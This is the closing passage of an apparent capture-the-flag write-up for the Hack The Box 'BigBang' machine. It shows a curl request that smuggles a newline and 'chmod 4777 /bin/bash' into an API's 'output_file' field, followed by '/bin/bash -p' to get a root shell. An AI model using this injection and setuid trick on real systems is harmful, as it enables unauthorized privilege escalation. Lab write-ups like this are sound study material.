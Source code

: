 ![Screenshot 2025-01-27 at 10.40.46 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_10.40.46_PM.png)

Finally the Commands are executing and the file owner is root 

Changing the permission on /bin/bash to gain root privilege : )

```bash
curl -X POST http://127.0.0.1:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzk5NzQ1MCwianRpIjoiN2NmOTYzM2YtMGQzZS00NWMzLWJmM2UtNmM1NTY3MjA1ZDczIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzk5NzQ1MCwiY3NyZiI6IjZiMDIyN2FlLTk5YWEtNDkzMS04YjQ3LWQxMDE5OWIxZGZiMiIsImV4cCI6MTczODAwMTA1MH0.XEjpZ7dcUlUVZnKqPDjzZ3oGrLQbAorF31idJLF8TfE" -d '{"command":"send_image","output_file":"foo \nchmod 4777 /bin/bash"}'
```

```bash
/bin/bash -p
```

![Screenshot 2025-01-27 at 10.45.10 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_10.45.10_PM.png)

### Thanks For reading this whole Writeup ! i Hope you Like it

